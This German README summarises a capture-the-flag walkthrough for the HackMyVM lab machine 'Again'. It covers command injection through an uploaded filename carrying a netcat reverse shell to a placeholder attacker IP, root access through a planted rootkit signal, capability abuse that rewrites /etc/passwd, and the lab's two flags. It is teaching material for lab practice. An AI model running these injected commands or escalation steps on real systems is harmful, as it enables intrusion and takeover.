

# Again - HackMyVM Lösungsweg



Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Again".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Again
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Schwer (Hard)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=again](https://hackmyvm.eu/machines/machine.php?vm=again)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Again_HackMyVM_Hard/](https://alientec1908.github.io/Again_HackMyVM_Hard/)
*   **Datum des Originalberichts:** 18. Oktober 2022

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `vi`
*   `nmap`
*   `gobuster`
*   `curl`
*   `wget`
*   Burp Suite (impliziert für Upload-Manipulation)
*   `nc` (netcat)
*   `python3`
*   `stty`
*   `find`
*   `getcap`
*   `php7.4` (auf dem Ziel)
*   `chmod`
*   `openssl` (für Passworterstellung)
*   `nano`
*   `su`
*   Standard Linux-Befehle (`id`, `ls`, `cat`, `cd`, `kill`)

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.156` wurde mittels `arp-scan -l` identifiziert.
*   Der Hostname `hack.hmv` wurde der IP `192.168.2.156` in der `/etc/hosts`-Datei des Angreifers zugeordnet.
*   Ein `nmap`-Scan ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 7.9p1 Debian 10+deb10u2.
    *   **Port 80/tcp (HTTP):** Nginx 1.14.2.
    *   Nmap stürzte am Ende mit einem Segmentation Fault ab, lieferte aber vorher die Ergebnisse.

### 2. Web Enumeration & Hint Discovery

*   Im Quellcode der Webseite (Port 80) wurde ein HTML-Kommentar gefunden: ``.
*   `gobuster` fand `index.html` und `upload.php`.
*   Manuelle Tests und Burp Suite zeigten, dass `upload.php` PHP-Dateien blockierte, aber ein Upload mit doppelter Endung (`.php.jpg`) und manipuliertem `Content-Type` (`image/jpg`) erfolgreich war ("File uploaded").
*   Basierend auf dem HTML-Kommentar wurde `http://192.168.2.156/upload.bck` heruntergeladen.
*   **Analyse von `upload.bck` (Quellcode von `upload.php`):**
    *   Das Skript akzeptierte nur `image/jpeg` oder `text/plain`.
    *   **Kritische Schwachstelle:** Es verwendete den vom Benutzer angegebenen Originaldateinamen (`$_FILES['myFile']['name']`) als Zielpfad für `copy()` und **direkt in einem `shell_exec()`-Aufruf** (`base64 [filename]` für JPGs, `cat [filename]` für TXTs).
    *   Eine unvollständige Blacklist für Sonderzeichen im Dateinamen verhinderte Command Injection nicht.

### 3. Initial Access (RCE via Filename im Upload)

1.  **Vorbereitung des Exploits:**
    *   Ein Netcat-Listener wurde auf der Angreifer-Maschine gestartet (z.B. `nc -lvnp 444`).
    *   Ein bösartiger Dateiname wurde konstruiert, der eine Reverse Shell enthält, z.B. `";nc -e /bin/bash ANGREIFER_IP 444;#.jpg"`.
2.  **Ausnutzung der Schwachstelle:**
    *   Eine Dummy-Datei (z.B. `dummy.jpg`) wurde mit dem bösartigen Dateinamen und `Content-Type: image/jpeg` an `upload.php` gesendet (z.B. mit `curl`).
3.  **Reverse Shell als `www-data`:**
    *   Der Server führte den im Dateinamen eingebetteten `nc`-Befehl aus.
    *   Eine Reverse Shell verband sich zum Listener des Angreifers.
    *   Die Shell wurde mit Python PTY und `stty` stabilisiert. Der Hostname des Zielsystems war `hacked`.

### 4. Privilege Escalation (kerszi -> root)

Zwei Wege zu Root-Rechten wurden identifiziert:

#### Weg 1: Diamorphine Rootkit

1.  **Rootkit-Entdeckung:**
    *   Durch Auflisten der Kernelmodule (`ls /sys/module/`) und Vergleich mit einer Baseline wurde das LKM-Rootkit **`Diamorphine`** identifiziert.
2.  **Ausnutzung des Rootkits:**
    *   Durch Senden des Signals 64 an den Prozess mit PID 1 (`kill -64 1`) wurden Root-Rechte erlangt.
    *   `id` bestätigte `uid=0(root)`.

#### Weg 2: Missbrauch der `cap_fowner` Capability (alternativ oder später entdeckt)

1.  **Capability-Entdeckung:**
    *   `getcap -r / 2>/dev/null` zeigte, dass `/usr/bin/php7.4` die Capability **`cap_fowner=ep`** gesetzt hatte.
    *   Diese Capability erlaubt es dem Prozess, den Eigentümer beliebiger Dateien zu ändern.
2.  **Ausnutzung der Capability:**
    *   Mit PHP wurde `/etc/passwd` für alle schreibbar gemacht (vermutlich war `chown` beabsichtigt, aber `chmod 0666` funktionierte):
        `php7.4 -r 'chmod("/etc/passwd", 0666);'`
    *   Ein neuer Passworthash für ein beliebiges Passwort (z.B. `benni1908`) wurde mit `openssl passwd -1 benni1908` generiert.
    *   Der Passworthash des `root`-Benutzers in `/etc/passwd` wurde mit `nano` durch den neu generierten Hash ersetzt.
    *   Mittels `su root` und dem neuen Passwort (`benni1908`) wurden Root-Rechte erlangt.

*(Hinweis: Der Writeup erwähnt auch SSH-Versuche mit einem Benutzer "kerszi" und SSH-Schlüssel, die jedoch nicht direkt zum initialen Zugriff oder zur Privilegienerweiterung auf diesem Pfad führten, sondern eher als alternative Enumerationsschritte erschienen. Der direkte Weg zur RCE war der Dateinamen-Exploit.)*

### 5. Flags

*   **User-Flag (Pfad nicht exakt spezifiziert, vermutlich `/home/kerszi/user.txt` oder `/home/h4x0r/user.txt`):**
    ```
    HMVimthabesthacker
    ```
*   **Root-Flag (Pfad nicht exakt spezifiziert, vermutlich `/root/r00t.txt` oder `/root/root.txt`):**
    ```
    HMVhackingthehacker
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Again" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.
